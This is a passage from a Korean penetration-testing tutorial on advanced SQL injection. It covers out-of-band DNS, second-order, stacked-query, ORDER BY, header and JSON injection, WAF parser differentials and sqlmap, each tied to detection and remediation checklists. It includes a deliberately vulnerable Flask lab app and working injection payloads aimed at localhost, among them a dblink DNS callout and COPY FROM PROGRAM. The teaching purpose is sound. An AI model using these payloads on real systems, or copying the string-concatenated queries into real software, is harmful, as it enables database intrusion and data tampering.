    try:
        with mysql_connection() as connection:
            with connection.cursor() as cursor:
                cursor.execute(query)
                return jsonify(query=query, rows=cursor.fetchall())
    except Exception as error:
        return jsonify(query=query, db_error=str(error)), 500


@app.get("/postgres/stacked")
def postgres_stacked() -> Response | tuple[Response, int]:
    product_id = request.args.get("id", "1")
    query = f"SELECT name FROM products WHERE id={product_id}"
    try:
        with postgres_connection() as connection:
            with connection.cursor() as cursor:
                cursor.execute(query)
                return jsonify(query=query, status="executed")
    except Exception as error:
        return jsonify(query=query, db_error=str(error)), 500


@app.get("/postgres/products")
def postgres_products() -> Response:
    with postgres_connection() as connection:
        with connection.cursor() as cursor:
            cursor.execute("SELECT id, name, price FROM products ORDER BY id")
            return jsonify(rows=cursor.fetchall())


@app.get("/postgres/oob")
def postgres_oob() -> Response | tuple[Response, int]:
    product_id = request.args.get("id", "1")
    query = f"SELECT name FROM products WHERE id={product_id}"
    try:
        with postgres_connection() as connection:
            with connection.cursor() as cursor:
                cursor.execute(query)
                return jsonify(query=query, status="executed")
    except Exception as error:
        return jsonify(query=query, db_error=str(error)), 500


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000, threaded=True)
```

같은 폴더에서 실행합니다. 최초 MySQL 초기화는 환경에 따라 2분가량 걸릴 수 있습니다.

```bash
docker compose up --build -d
curl -s http://127.0.0.1:5000/
# 기대: {"scope":"127.0.0.1 only","service":"localhost SQLi lab"}
```

OOB 요청은 PostgreSQL `dblink`가 `proof.dnslog`를 해석하도록 만듭니다.

```bash
curl -sG 'http://127.0.0.1:5000/postgres/oob' \
  --data-urlencode "id=1; SELECT dblink_connect('host=proof.dnslog dbname=missing connect_timeout=1');--"

docker compose logs --tail 20 dnslog
# 기대: DNS query from 172.28.0.x: proof.dnslog
```

앱 응답은 연결 실패 500이어도 됩니다. **성공 판단 기준은 dnslog 컨테이너에
`proof.dnslog` 질의가 기록되는 것**입니다. DB 서버가 만든 DNS 요청이므로 HTTP
응답과 독립된 OOB 증거입니다.

### 진단 체크리스트·오탐 구분

- [ ] 매 요청마다 추측하기 어려운 고유 label을 사용했다.
- [ ] DNS resolver·NAT 때문에 보이는 원본 IP가 DB 자체 IP와 다를 수 있음을 기록했다.
- [ ] 브라우저나 진단 PC가 직접 만든 요청이 아님을 서버 로그·시간으로 구분했다.
- [ ] 단순 DNS 조회와 실제 데이터가 label에 포함된 유출을 별도 영향으로 평가했다.
- [ ] 함수, 권한, OS, egress 네 조건을 확인했다.

### 조치·탐지

바인딩에 더해 DB 서버의 외부 DNS·HTTP·SMB egress를 허용 목록으로 제한합니다.
`FILE`, `EXECUTE`, PostgreSQL `pg_execute_server_program`, Oracle 네트워크 ACL,
MSSQL 위험 프로시저 권한을 회수합니다. DNS에서는 긴·고엔트로피 subdomain,
DB 서브넷의 외부 질의, 존재하지 않는 도메인(NXDOMAIN) 급증을 탐지합니다.

- 출처: [PortSwigger SQLi cheat sheet — DNS lookup](https://portswigger.net/web-security/sql-injection/cheat-sheet), [ProjectDiscovery interactsh](https://github.com/projectdiscovery/interactsh), [PostgreSQL dblink](https://www.postgresql.org/docs/current/dblink.html), [PostgreSQL COPY](https://www.postgresql.org/docs/current/sql-copy.html), [Oracle `UTL_HTTP`](https://docs.oracle.com/en/database/oracle/oracle-database/19/arpls/UTL_HTTP.html), [Oracle `UTL_INADDR`](https://docs.oracle.com/en/database/oracle/oracle-database/19/arpls/UTL_INADDR.html), [MySQL `LOAD_FILE()`](https://dev.mysql.com/doc/refman/8.4/en/string-functions.html#function_load-file), [Microsoft `fn_xe_file_target_read_file`](https://learn.microsoft.com/en-us/sql/relational-databases/system-functions/sys-fn-xe-file-target-read-file-transact-sql)

---

## 5. Second-Order — 저장할 때 안전해 보여도 다시 쓸 때 실행된다

### 단서 기능·성립 조건·원리

Second-Order SQLi는 입력 시점과 실행 시점이 다릅니다. 가입 요청은 바인딩되어
`victim' -- `가 문자 그대로 저장되지만, 나중에 비밀번호 변경·관리자 검색·정산
배치가 그 저장값을 **신뢰된 내부 데이터로 오해해 문자열 결합**하면 SQL 구조가
바뀝니다.


다음 두 코드가 같은 흐름에 존재할 때 성립합니다.

```python
# 저장 시점: 안전하게 바인딩됨
cursor.execute("INSERT INTO profiles(username) VALUES (%s)", (username,))

# 나중 사용: 저장값이므로 안전하다고 오판
query = f"UPDATE users SET password='{new_password}' WHERE username='{stored_username}'"
cursor.execute(query)
```

### 따라하기 — localhost 가입 → 비밀번호 변경

PortSwigger에는 [Second-order SQL injection 설명](https://portswigger.net/web-security/sql-injection#second-order-sql-injection)은 있지만 현재 독립 실습 랩은 없습니다. 앞의 Docker 앱에서 직접 확인합니다.

1. 정상 로그인은 원래 비밀번호에서만 성공합니다.

```bash
curl -s -X POST 'http://127.0.0.1:5000/second/login' \
  -d 'username=victim' -d 'password=original-local'
# 기대: {"authenticated":true}
```

2. 가입 기능은 악성 모양 사용자명도 **값으로 안전하게 저장**합니다.

```bash
curl -s -X POST 'http://127.0.0.1:5000/second/register' \
  --data-urlencode "username=victim' -- "
# 기대: {"profile_id":1,"stored":"victim' -- "}
```

3. 후속 비밀번호 변경 기능에 프로필 ID만 전달합니다. 요청에는 SQL 문자가 없습니다.

```bash
curl -s -X POST 'http://127.0.0.1:5000/second/change-password' \
  -d 'profile_id=1' -d 'new_password=changed-local'
# 기대: changed_rows=1
# 생성 쿼리: ... WHERE username='victim' -- '
```

4. 실제 `victim` 계정의 비밀번호가 바뀌었는지 확인합니다.

```bash
curl -s -X POST 'http://127.0.0.1:5000/second/login' \
  -d 'username=victim' -d 'password=changed-local'
# 기대: {"authenticated":true}
```

**성공 판단 기준**: 저장 요청에서는 오류가 없고, SQL 문자가 없는 후속 요청에서
다른 실제 계정의 값이 변경되어야 합니다.

### 진단 체크리스트·오탐 구분

- [ ] 가입·프로필·주소·조직명·파일명 등 저장 가능한 문자열을 목록화했다.
- [ ] 비밀번호 변경, 관리자 검색, CSV/PDF, 알림, 배치, 마이그레이션에서 재사용을 추적했다.
- [ ] 저장 성공만 보고 안전하다고 결론 내리지 않았다.
- [ ] 후속 기능의 SQL 오류·행 수 변화와 최초 저장 레코드 ID를 연결했다.
- [ ] 단순 중복 사용자명 처리나 관리자 검색의 와일드카드를 SQLi로 오판하지 않았다.

### 조치·탐지

DB에서 읽은 값도 외부 입력과 똑같이 취급해 **모든 사용 시점에 바인딩**합니다.
저장 시 이스케이프한 문자열을 나중 쿼리에 붙이는 방식은 인코딩 단계가 달라지면
깨지므로 방어가 아닙니다. 탐지는 최초 입력의 특수문자와 며칠 뒤 배치·관리자 API의
DB 오류를 trace ID·레코드 ID로 연결해야 합니다.

- 출처: [PortSwigger — Second-order SQL injection](https://portswigger.net/web-security/sql-injection#second-order-sql-injection), [OWASP Query Parameterization Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Query_Parameterization_Cheat_Sheet.html)

---

## 6. Stacked Query — 두 번째 문장이 쓰기·명령 실행으로 이어지는 조건

### 단서 기능·성립 조건·원리

Stacked Query는 `SELECT ...; UPDATE ...`처럼 세미콜론 뒤에 독립 SQL 문장을
실행합니다. DB 문법만 지원한다고 끝이 아닙니다. **클라이언트 드라이버의 다중 문장
허용과 DB 계정의 쓰기·프로시저 권한**까지 모두 필요합니다.

| DB | 일반적인 가능성 | 드라이버·환경 조건 |
|---|---|---|
| MSSQL | 높음 | TDS 드라이버가 batch를 허용하는 경우가 많음 |
| PostgreSQL | 가능 | simple query/드라이버 동작에 따라 다중 문장 허용 여부가 다름 |
| MySQL | 조건부 | 많은 드라이버가 `multipleStatements`를 기본 비활성화 |
| Oracle | 일반 앱 SQL에서 낮음 | API가 한 문장만 받는 경우가 많고 PL/SQL 블록은 별도 문맥 |
| SQLite | 조건부 | Python `execute()` 등은 한 문장만 허용, `executescript()`는 허용 |

MSSQL `xp_cmdshell`은 해당 기능이 활성화되고 실행 권한이 있어야 하며, PostgreSQL
`COPY FROM PROGRAM`은 superuser 또는 `pg_execute_server_program` 역할이 필요합니다.
SQLi가 보인다는 이유만으로 OS 명령 실행까지 영향에 적지 않습니다.

### 따라하기 A — localhost에서 데이터 쓰기 확인

```bash
curl -s http://127.0.0.1:5000/postgres/products
# 기대: mouse 가격 20

curl -sG 'http://127.0.0.1:5000/postgres/stacked' \
  --data-urlencode 'id=1; UPDATE products SET price=1 WHERE id=2;--'
# 기대: status="executed"

curl -s http://127.0.0.1:5000/postgres/products
# 기대: mouse 가격 1
```

### 따라하기 B — PostgreSQL `COPY FROM PROGRAM` 권한 경계

아래는 같은 localhost 컨테이너 안에서 `printf` 문자열만 읽는 무해한 예입니다.

```bash
docker compose exec postgres psql -U postgres -d sqli_lab -c \
  "CREATE TEMP TABLE program_output(line text); COPY program_output FROM PROGRAM 'printf local-only'; SELECT * FROM program_output;"
# 기대: line 열에 local-only
```

이 결과는 **현재 랩의 postgres superuser가 OS 프로그램을 실행할 수 있음**을
보여줍니다. 실제 애플리케이션 DB 계정이 해당 역할을 갖지 않으면 같은 영향은
성립하지 않습니다. MSSQL `xp_cmdshell`은 이 랩에 MSSQL을 포함하지 않았으므로
직접 검증하지 않았습니다.

### 진단 체크리스트·오탐 구분

- [ ] `SELECT 1; SELECT 2`가 아니라 되돌릴 수 있는 테스트 레코드로 두 번째 실행을 확인했다.
- [ ] HTTP 200만 보고 두 번째 문장 실행으로 판단하지 않았다.
- [ ] DB·드라이버·connection string의 다중 문장 옵션을 확인했다.
- [ ] 쓰기 권한과 OS 실행 권한을 별개로 입증했다.
- [ ] 트랜잭션 rollback으로 외형상 변경이 사라진 경우 DB 로그도 확인했다.

### 조치·탐지

바인딩과 함께 다중 문장 옵션을 끄고, 애플리케이션 계정에 DDL·관리 프로시저·프로그램
실행 역할을 부여하지 않습니다. `xp_cmdshell`은 비활성화하고 PostgreSQL의
`pg_execute_server_program`, MySQL `FILE` 권한을 회수합니다. 쿼리 감사 로그에서
평소 단일 `SELECT` 경로가 갑자기 `UPDATE`, `COPY`, `EXEC`를 수행하는지 봅니다.

- 출처: [PostgreSQL COPY](https://www.postgresql.org/docs/current/sql-copy.html), [PostgreSQL predefined roles](https://www.postgresql.org/docs/current/predefined-roles.html), [Microsoft `xp_cmdshell`](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql), [SQLite `execute()`](https://docs.python.org/3/library/sqlite3.html#sqlite3.Cursor.execute)

---

## 7. 특수 위치 — ORDER BY·식별자·헤더·쿠키·JSON/XML·쓰기 쿼리

### 단서 기능·성립 조건·원리

파라미터 바인딩은 **값**을 안전하게 전달하지만 SQL 키워드, 테이블명, 컬럼명,
`ASC/DESC`, `ORDER BY` 식 전체를 대신할 수 없습니다. 이 구조 위치에 외부 입력을
그대로 붙이면 따옴표 없이도 주입됩니다.

| 위치 | 흔한 기능 | 진단 단서 | 안전한 설계 |
|---|---|---|---|
| `ORDER BY` | 정렬 열·방향 | 숫자/열 이름에 따라 정렬, `CASE` 식 허용 | 외부 키를 고정 SQL 조각에 매핑 |
| `LIMIT/OFFSET` | 페이지 크기 | 산술식·큰 수·오류 차이 | 정수 파싱·범위 제한, 지원 시 바인딩 |
| 테이블·컬럼명 | 리포트 필드·멀티테넌트 | 존재/부재 식별자 오류 | 서버측 enum/허용 목록 |
| `LIKE` | 검색 | `%`, `_`, 따옴표의 결과 확대 | 값 바인딩 + wildcard 정책/escape |
| `INSERT/UPDATE` | 가입·로그·프로필 | 저장 후 오류, 행 수·다른 행 변화 | 모든 값 바인딩 |
| 헤더·쿠키 | 감사 로그·분석·IP 기록 | 평소 화면 밖 입력에서 지연·오류 | 신뢰하지 말고 바인딩·길이 제한 |
| JSON/XML | API·재고 조회 | 문자열/숫자 타입 변경, 파서 정규화 차이 | schema 검증 후 바인딩 |

안전한 구조 매핑은 다음처럼 **외부 문자열을 SQL 조각으로 직접 쓰지 않습니다.**

```python
SORT_COLUMNS = {"newest": "created_at DESC", "price": "price ASC"}
order_clause = SORT_COLUMNS.get(user_sort)
if order_clause is None:
    raise ValueError("unsupported sort")
query = f"SELECT id, name, price FROM products ORDER BY {order_clause}"
```

### 따라하기 A — ORDER BY 구조 위치

```bash
curl -sG 'http://127.0.0.1:5000/special/order' \
  --data-urlencode 'sort=id'

curl -sG 'http://127.0.0.1:5000/special/order' \
  --data-urlencode "sort=(CASE WHEN (SELECT current_database())='sqli_lab' THEN price ELSE id END) DESC"
```

**기대 결과와 성공 기준**: 두 번째 요청에서 가격 50인 `keyboard`가 먼저 오고,
조건을 `wrong`으로 바꾸면 ID 기준 역순으로 `mouse`가 먼저 와야 합니다. 단순히
`sort=price`가 정상 작동하는 것만으로는 취약점이 아닙니다.

### 따라하기 B — User-Agent가 INSERT 쿼리에 들어갈 때

```bash
curl -s -X POST 'http://127.0.0.1:5000/special/header' \
  -H "User-Agent: x'),('from-injection')#"
# 기대: audit_rows가 한 요청에서 2 증가
```

최종 SQL은 다음 형태입니다.

```sql
INSERT INTO audit_log(agent) VALUES ('x'),('from-injection')#')
```

### 따라하기 C — JSON 검색 LIKE

```bash
curl -s -X POST 'http://127.0.0.1:5000/special/json' \
  -H 'Content-Type: application/json' \
  --data-raw '{"term":"x%\u0027 OR 1=1 -- "}'
# 기대: keyboard와 mouse가 모두 rows에 나타남
```

`\u0027`은 JSON 파서가 작은따옴표로 디코딩합니다. 이 요청은 인코딩 자체가
취약점이 아니라 **디코딩된 값이 LIKE 문자열에 결합**되기 때문에 성립합니다.

### 따라하기 D — XML 경계

[Lab: SQL injection with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)은 재고 확인 XML의 `storeId`가 SQL에 들어가는 실제 랩입니다. Burp Repeater에서
먼저 `<storeId>1+1</storeId>`로 산술 평가를 확인한 뒤, 랩 지시대로 XML entity
인코딩 전후의 차이를 비교합니다.

### 쿠키·UPDATE·LIMIT에서 추가로 볼 것

- 추적 쿠키는 비동기 분석 DB에 들어가므로 즉시 응답이 같아도 Blind/OOB를 확인합니다.
- 프로필 `UPDATE`는 WHERE와 SET 양쪽 입력을 나눠 봅니다. WHERE가 넓어지면 여러 행이
  바뀌고, SET이 깨지면 다른 컬럼이 수정될 수 있습니다.
- `LIMIT`은 문자열 탈출이 아니라 정수·산술·서브쿼리 문맥입니다. 무한대에 가까운
  값으로 부하를 주지 말고 `1`, `2`, `1+1`처럼 작은 값만 비교합니다.
- 테이블·컬럼명은 사용자 입력을 인용부호로 감싸는 것으로 충분하지 않습니다.
  서버가 고정 allowlist에서 실제 식별자를 선택해야 합니다.

### 진단 체크리스트·오탐 구분

- [ ] URL/폼 외에 헤더, 쿠키, JSON/XML의 중첩 필드를 전부 매핑했다.
- [ ] `LIKE`의 정상 wildcard 동작과 따옴표 탈출을 구분했다.
- [ ] 구조 위치는 `AND/UNION`이 문법상 들어갈 수 없음을 고려해 `CASE`로 확인했다.
- [ ] INSERT/UPDATE의 성공은 응답이 아니라 실제 행 수·대상 행 변화로 확인했다.
- [ ] 프록시가 재작성한 `X-Forwarded-For`와 앱이 직접 신뢰한 값을 구분했다.

### 조치·탐지

값은 바인딩하고 구조는 고정 매핑합니다. JSON/XML schema에서 타입과 최대 길이를
강제하되, 검증 후에도 바인딩합니다. 헤더·쿠키 로그도 전용 로깅 API나 바인딩된
INSERT를 사용합니다. 탐지는 URL 파라미터만 보지 말고 JSON/XML 파싱 후 값,
비표준 헤더와 쿠키까지 동일한 정규화 단계에서 검사합니다.

- 출처: [PortSwigger SQL injection in different parts of the query](https://portswigger.net/web-security/sql-injection#sql-injection-in-different-parts-of-the-query), [PortSwigger — SQL injection in the query structure](https://portswigger.net/support/sql-injection-in-the-query-structure), [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

---

## 8. 필터·WAF 우회 — 문자열 목록이 아니라 해석 차이를 본다

### 단서 기능·성립 조건·원리

이 절은 **허가된 랩에서 필터의 한계를 검증하는 원리**만 다룹니다. 실제 서비스의
WAF 우회용 완성 페이로드 목록은 제공하지 않습니다.

| 변형 계열 | 왜 탐지 차이가 생기나 | 방어 검증 질문 |
|---|---|---|
| 주석·공백 대체 | WAF tokenizer와 DB lexer의 공백/주석 규칙이 다름 | 주석 제거 후 재토큰화하는가? |
| 대소문자 | 키워드 검색이 case-sensitive일 수 있음 | canonical case에서 검사하는가? |
| URL·이중 인코딩 | 프록시는 1회, 앱은 2회 디코딩할 수 있음 | 검사와 실행이 같은 횟수·순서로 디코딩하는가? |
| 유니코드/JSON escape | `\u0027`, XML entity를 앱 파서가 나중에 복원 | 구조 파싱 후 의미값을 검사하는가? |
| 문자열 연결·`CHAR/CHR` | 키워드·문자열이 DB 안에서 조립됨 | 함수 호출과 AST를 이해하는가? |
| 동등 함수 치환 | 같은 의미를 여러 DB 함수로 표현 가능 | 특정 함수명 blacklist에 의존하는가? |
| JSON 기반 SQL 문법 | DB는 JSON 연산자를 알지만 오래된 WAF SQL 파서는 모름 | DB 버전의 JSON 연산자까지 파싱하는가? |

Claroty Team82는 PostgreSQL JSON 포함 연산자, SQLite JSON 추출, MySQL
`JSON_EXTRACT`처럼 **DB에는 정상인 JSON SQL 문법을 당시 여러 WAF가 해석하지
못하는 parser differential**을 공개했습니다. 영향받은 주요 벤더들은 이후 탐지를
업데이트했습니다. 따라서 2022년 연구가 오늘 모든 WAF에 그대로 통한다는 뜻은
아닙니다.

### 따라하기 — Academy XML 인코딩 랩

[Lab: SQL injection with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)에서 다음 증거를 순서대로 남깁니다.

1. `storeId`의 `1+1`이 다른 매장의 재고처럼 평가되는지 확인합니다.
2. 평문 SQL 구조가 WAF에 의해 차단되는 상태 코드를 기록합니다.
3. 동일 의미를 XML numeric entity로 표현한 값이 앱 XML 파서 뒤에서 복원되는지
   확인합니다.
4. 응답에서 한 열로 합친 marker가 나타나는지 확인합니다.

**성공 판단 기준**: 인코딩 문자열 자체가 통과한 것이 아니라, WAF 뒤의 앱이 이를
디코딩한 뒤 SQL 구조로 실행하여 결과가 달라져야 합니다.

### 진단 체크리스트·오탐 구분

- [ ] 원본 바이트, 프록시 정규화값, 앱 파서 결과, DB 전달값을 단계별로 구분했다.
- [ ] 403이 WAF인지 앱 권한 검사인지 응답 헤더·로그로 확인했다.
- [ ] 인코딩만 바꾼 정상 값도 보내 일반적인 디코딩 동작과 공격 탐지를 구분했다.
- [ ] WAF 통과만으로 SQLi라고 하지 않고 DB 결과 변화를 확인했다.
- [ ] 생산 트래픽에 우회 변형을 대량 전송하지 않았다.

### 조치·탐지

WAF는 보조 통제이며 바인딩을 대체하지 못합니다. 프록시와 앱은 파싱·디코딩 횟수와
문자 인코딩을 합의하고, **구조 파싱 후 canonical 값**을 검사합니다. WAF·DB 엔진의
문법 버전을 함께 업데이트하고 차단 전 원본과 정규화 후 값을 모두 로깅합니다.

- 출처: [Claroty Team82 — JS-ON: Security-OFF](https://claroty.com/team82/research/js-on-security-off-abusing-json-based-sql-to-bypass-waf), [PortSwigger — Obfuscating attacks using encodings](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings), [OWASP CRS — A new rule to prevent SQLi using JSON](https://coreruleset.org/20230222/a-new-rule-to-prevent-sql-in-json/)

---

## 9. sqlmap — 수동으로 문맥을 잡은 뒤 자동화하기

sqlmap은 확인·추론을 자동화하지만, 잘못된 파라미터나 높은 위험 옵션은 운영 DB에
부하와 변경을 일으킬 수 있습니다. 먼저 Repeater/curl에서 참·거짓 최소 증거를
확보한 뒤 허가된 요청 파일을 사용합니다.

### 핵심 옵션

| 옵션 | 의미 | 안전 메모 |
|---|---|---|
| `--level=1..5` | 테스트 수와 입력 위치 확대 | 높이면 쿠키·헤더 등 더 많은 위치를 검사 |
| `--risk=1..3` | 잠재 부하·데이터 변경 위험이 큰 테스트 추가 | 2는 무거운 time 계열, 3은 OR 계열 등을 포함할 수 있음 |
| `--technique=BEUSTQ` | Boolean, Error, UNION, Stacked, Time, inline Query 선택 | 먼저 관찰된 채널만 좁혀 사용 |
| `--dbms=MySQL` | DBMS 가설 고정 | 잘못 고정하면 탐지를 놓칠 수 있으므로 수동 식별 뒤 사용 |
| `-r request.txt` | Burp의 원본 HTTP 요청 사용 | 쿠키·CSRF·JSON/XML 문맥 보존에 유용 |
| `--second-url=URL` | Second-Order 결과가 나타나는 두 번째 URL 확인 | 저장 요청과 후속 조회를 구분 |
| `--second-req=FILE` | 두 번째 HTTP 요청을 파일로 지정 | 인증·메서드가 복잡할 때 사용 |
| `--dns-domain=DOMAIN` | 지원 DB에서 DNS exfiltration 채널 사용 | 반드시 통제하는 도메인·egress 승인 필요 |
| `--tamper=SCRIPT` | payload 표현을 변환 | 원인 파악 없이 여러 스크립트를 쌓지 않음 |
| `--os-shell` | DB 기능을 거쳐 OS 셸 획득 시도 | 파일·UDF·명령 실행과 변경을 동반할 수 있어 기본 금지 |

### 따라하기 — localhost 요청 파일

`request.txt`를 다음처럼 만듭니다.

```http
GET /mysql/blind?name=admin* HTTP/1.1
Host: 127.0.0.1:5000
Connection: close

```

`*`는 명시적 주입 지점입니다.

```bash
sqlmap -r request.txt --batch --technique=B --dbms=MySQL --level=1 --risk=1
```

**기대 결과와 성공 기준**: sqlmap이 `name`의 Boolean 기반 주입을 식별하고 백엔드를
MySQL로 확인해야 합니다. 데이터 dump나 `--os-shell`까지 진행할 필요가 없습니다.

### 수동 확인을 먼저 해야 하는 이유

1. 참·거짓 차이가 캐시·권한·검색 기능 때문인지 사람이 먼저 구분할 수 있습니다.
2. `ORDER BY`, JSON 중첩, Second-Order 같은 문맥을 정확히 지정할 수 있습니다.
3. 최소 technique·level·risk만 골라 요청 수와 부하를 줄입니다.
4. 보고서에 도구 출력이 아니라 개발자가 재현할 원본 요청·성공 기준을 남깁니다.

### 진단 체크리스트·조치·탐지

- [ ] 스코프에 없는 Host·리다이렉트를 자동 추적하지 않게 했다.
- [ ] `--threads`, `--time-sec`, timeout을 승인 범위에 맞췄다.
- [ ] `--risk=3`, `--os-shell`, 데이터 변경 옵션은 별도 승인 없이 쓰지 않았다.
- [ ] tamper 성공을 근본 취약점과 WAF 파서 차이로 나눠 기록했다.
- [ ] sqlmap 결과를 같은 요청의 수동 참/거짓 쌍으로 재검증했다.

- 출처: [sqlmap Usage wiki](https://github.com/sqlmapproject/sqlmap/wiki/Usage), [sqlmap 공식 저장소](https://github.com/sqlmapproject/sqlmap)

---

## 10. DB별 SQLi 치트 표

| 항목 | MySQL/MariaDB | MSSQL | PostgreSQL | Oracle | SQLite |
|---|---|---|---|---|---|
| **줄 주석** | `#`, `-- ` | `--` | `--` | `--` | `--` |
| **블록 주석** | `/* ... */` | `/* ... */` | `/* ... */` | `/* ... */` | `/* ... */` |
| **문자열 연결** | `CONCAT(a,b)` | `a+b` | `a||b` | `a||b` | `a||b` |
| **버전** | `@@version`, `VERSION()` | `@@version` | `version()` | `v$version`, `v$instance` | `sqlite_version()` |
| **sleep** | `SLEEP(n)` | `WAITFOR DELAY` | `pg_sleep(n)` | `DBMS_PIPE.RECEIVE_MESSAGE` 권한 필요 | 내장 없음, 제한적 heavy query |
| **오류 유발/노출** | 구형 `EXTRACTVALUE`, `UPDATEXML`, 변환·산술 오류 | `CONVERT(int,text)` | `CAST(text AS int)` | `TO_CHAR(1/0)`, 변환 오류 | 타입 강제가 약해 조건·함수 오류 사용 |
| **OOB 후보** | Windows `LOAD_FILE`/`OUTFILE` UNC | `xp_dirtree`, XE file target | `dblink`, `COPY PROGRAM` | `UTL_HTTP`, `UTL_INADDR`, XML 외부 참조 | 기본 내장 OOB 함수 없음 |
| **스택 쿼리** | 드라이버 `multipleStatements`에 좌우 | 대체로 가능 | 드라이버/protocol에 좌우 | 일반 API에서 대체로 제한 | API가 `execute`인지 `executescript`인지에 좌우 |
| **상수 SELECT** | `SELECT 1` | `SELECT 1` | `SELECT 1` | `SELECT 1 FROM dual` | `SELECT 1` |
| **한 행 제한** | `LIMIT 1` | `TOP 1` / `OFFSET FETCH` | `LIMIT 1` | `FETCH FIRST 1 ROWS ONLY`, 구형 `ROWNUM` | `LIMIT 1` |

이 표는 **문법 후보**이지 취약점 판정표가 아닙니다. 버전, 설정, 드라이버,
권한에 따라 달라지므로 실제 쿼리 로그와 벤더 문서로 확인합니다.

---

## 전체 진단·조치 체크리스트

### 진단

- [ ] 모든 입력 채널과 저장 후 재사용 흐름을 데이터 흐름도로 만들었다.
- [ ] 원본·참·거짓·복구 요청을 최소 3회 비교했다.
- [ ] DBMS를 두 가지 이상의 독립 단서로 식별했다.
- [ ] 가장 낮은 영향의 Boolean 증거에서 시작했다.
- [ ] OOB·Time·Stacked·OS 연계는 별도 승인과 중단 기준을 확인했다.
- [ ] 데이터 회수는 판정에 필요한 최소 범위에서 멈췄다.
- [ ] 위치, 원본 요청, 응답/시간, DB 로그, 영향, 조치를 한 증적 묶음으로 남겼다.

### 조치

- [ ] 모든 값에 Prepared Statement/파라미터 바인딩을 적용했다.
- [ ] 테이블·열·정렬 방향은 외부 키를 고정 allowlist SQL에 매핑했다.
- [ ] DB에서 다시 읽은 값도 신뢰하지 않고 바인딩했다.
- [ ] 앱 DB 계정에서 DDL, FILE, 관리 프로시저, 프로그램 실행 권한을 제거했다.
- [ ] DB egress를 DNS·HTTP·SMB 허용 목록으로 제한했다.
- [ ] 상세 오류는 외부에서 숨기되 내부 trace ID와 함께 보존했다.
- [ ] WAF는 정규화 후 검사하도록 업데이트하되 바인딩의 대체재로 쓰지 않았다.
- [ ] DB 쿼리 timeout, rate limit, 이상 쿼리·DNS 탐지를 함께 운영했다.

실습이 끝나면 컨테이너와 실습 데이터 볼륨을 내립니다.

```bash
docker compose down -v
```

SQLi의 기초 개념이 필요하면 [[웹 취약점 진단 기법 입문 — XXE, SSRF부터 SQLi, XSS까지]]로 돌아가고, 입력 경로를 찾는 방법은 [[웹 취약점 진단 정찰편 — 공격표면 매핑과 헤더 기반 접근통제 우회]]에서 이어서 볼 수 있습니다.
